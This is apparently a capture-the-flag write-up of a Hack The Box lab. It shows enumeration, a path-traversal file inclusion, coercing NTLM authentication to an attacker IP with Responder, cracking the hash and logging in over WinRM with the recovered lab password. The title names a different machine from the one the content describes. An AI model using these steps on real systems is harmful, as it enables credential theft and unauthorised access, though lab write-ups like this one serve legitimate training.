








Welcome to my writeup version of the HTB machine Appointment.


# Enumeration

## NMAP

- Start with nmap to see what ports are open and what services are running:



- Next, see deeper information about versions and services.



- We can see that there are two ports opened:

    - Port 80: An http service running based on Apache.
    - Port 5985:Hosts a service called WinRM(Windows Remote Management).
    > As the name sugests, the port 5985 is commonly used for automation and remote management of windows tools and sistems.

## HTTP

When searching for the HTTP service on a navigator, it gets redirected to a website with the url `http://unika.htb/`

- Edit the /etc/hosts file:

`sudo nano /etc/hosts`

and add

`[machine_ip] unika.htb`

- Now that we are able to acces the web page:


It looks like the basic web page. From all the features, the only thingg that seems to do something interesting is the "EN" button.



When presing either of the two buttons will change the lenguage of the website.



Seeing that the url is charging a file, this may imply a posible Local File Inclusion(LFI) if the site is not sanitized

# LFI Vulnerability

A LFI vulnerability consists of using an unsanitized function to trick the page into including a file which is not intended to.

One of the most common files used by pentesters is: `/windows/system32/drivers/etc/hosts`

This file will follow `../../../../`, which we use to escape whateveer directory the website may be hosted in.

It would look like this:


We can see that the file has been included. In this case a unsanitized "include()" function in php.

# NTLM

NTLM stands for NT LAN Manager, which is a set of protocols made for Microsoft authentication, made for identity vailadtion and data integrity.

# Responder

> Kali responder is a tool that can be used to respond to and exploit SMB traffic. It can be used to capture credentials, perform man-in-the-middle attacks, and more.

Now that we now what "Responder" is for, plus the fact that we are in a windows machine. Lets try and intercept some credentials.

> Usually we would be using the interface eth0, but as we are using a vpn with HTB, tun0 is the one to choose

```
sudo responder -I tun0 -v
```
Then after trying the url: `http://unika.htb/?page=//[atacker_IP]/somefile`
>Basicaly we are making the web use a parameter to connect to our smb, which the responder uses to catch the credentials of the windows user hosting the webpage.

This should be the result:



Having a hash, the next step would be to unhash it to see its content.

# JOHN THE RIPPER

> John the Ripper, also known as JtR, is software designed to recover passwords from their hashes, which are encrypted representations of the original passwords.

After dehashing


# WinRM

While doing the nmap, we also scanned a port 5985, which is used for WinRM(Windows Remote Management)

Because PowerShell isn't installed 
on Linux by default, we'll have to use a tool called  EvilWinRM. This tool was made for this kind of scenarios


```
evil-winrm -i 10.129.90.239 -u administrator -p badminton
```


We are connected.

Inside the user mike, on its desktop we'll find the flag